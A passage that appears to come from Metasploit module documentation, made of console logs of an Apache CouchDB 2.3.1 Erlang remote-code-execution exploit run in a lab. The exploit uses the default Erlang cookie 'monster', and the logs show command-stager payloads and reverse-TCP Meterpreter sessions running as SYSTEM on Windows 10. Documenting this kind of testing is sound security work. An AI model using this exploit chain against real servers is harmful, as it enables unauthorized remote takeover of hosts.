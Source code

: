 ```
[*] 172.16.199.137:4369 - Command Stager progress -  99.41% done (306900/308720 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] Meterpreter session 5 opened (172.16.199.1:4444 -> 172.16.199.137:49749) at 2022-10-14 17:09:31 -0400
[*] 172.16.199.137:4369 - Command Stager progress - 100.00% done (308720/308720 bytes)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter >
```

### PowerShell Stager, Windows 10, Apache CouchDB 2.3.1
```
msf6 exploit(multi/http/apache_couchdb_erlang_rce) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] 172.16.199.137:4369 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Port Mapper Daemon (EDPM) socket at: 172.16.199.137:4369...
[*] 172.16.199.137:4369 - Successfully found EDPM socket
[*] 172.16.199.137:4369 - Attempting to connect to the Erlang Server with an Erlang Server Cookie value of "monster" (default in vulnerable instances of Apache CouchDB)...
[*] 172.16.199.137:4369 - Connection successful
[*] 172.16.199.137:4369 - Erlang challenge and response completed successfully
[+] 172.16.199.137:4369 - The target is vulnerable. Successfully connected to the Erlang Server with cookie: "monster"
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  20.94% done (2046/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  41.88% done (4092/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  62.82% done (6138/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] 172.16.199.137:4369 - Command Stager progress -  83.77% done (8184/9770 bytes)
[*] 172.16.199.137:4369 - sending payload...
[*] Sending stage (222278 bytes) to 172.16.199.137
[*] Meterpreter session 12 opened (172.16.199.1:4444 -> 172.16.199.137:49773) at 2022-10-17 18:45:56 -0400
[*] 172.16.199.137:4369 - Command Stager progress - 100.00% done (9770/9770 bytes)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-8ATHH6O
OS              : Windows 10 (10.0 Build 19042).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
```
